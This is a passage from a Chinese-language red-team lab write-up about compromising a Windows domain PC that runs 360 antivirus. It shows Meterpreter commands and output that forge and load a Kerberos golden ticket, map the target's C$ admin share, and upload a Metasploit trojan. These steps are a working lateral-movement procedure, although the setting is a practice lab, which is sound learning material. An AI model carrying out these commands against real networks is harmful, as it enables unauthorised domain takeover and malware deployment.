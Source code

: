 然后打开PC才发现：

![image-20220413105613647](./image-20220413105613647.png)

360YYDS。

再来一波MSF看看：

![image-20220413141159079](./image-20220413141159079.png)

然后：

![image-20220413141225205](./image-20220413141225205.png)

360真的是太强了。

#### 黄金票据上传木马执行拿PC

由于前面拿到了黄金票据，直接在CS中使用黄金票据拿PC时：

![image-20220413145232968](./image-20220413145232968.png)

和前面的一样，看来360是过不去了。。。

没有关系，上MSF手动开搞。

创建黄金票据并载入：

```bash
meterpreter > golden_ticket_create -u administrator -d de1ay.com -s S-1-5-21-2756371121-2868759905-3
853650604-502 -k 82dfc71b72a11ef37d663047bc2088fb -t /home/kali/gold.ticket
[+] Golden Kerberos ticket written to /home/kali/gold.ticket
meterpreter > kerberos_ticket_use /home/kali/gold.ticket
[*] Using Kerberos ticket stored in /home/kali/gold.ticket, 1840 bytes ...
[+] Kerberos ticket applied successfully.
```

> 所以后面的502到底是要还是不要呢？前面也试过不要502的，也可以，要也可以。

创建一个映射：

```bash
C:\Oracle\Middleware\user_projects\domains\base_domain>net use X: \\pc\c$
net use X: \\pc\c$
The command completed successfully.
```

![image-20220413152652119](./image-20220413152652119.png)

显示会有一个×，没有关系，我们继续用就好了。

然后传MSF木马：

```bash
meterpreter > upload /home/kali/msf.exe X://msf.exe
[*] uploading  : /home/kali/msf.exe -> X://msf.exe
[*] Uploaded 7.00 KiB of 7.00 KiB (100.0%): /home/kali/msf.exe -> X://msf.exe
[*] uploaded   : /home/kali/msf.exe -> X://msf.exe
```
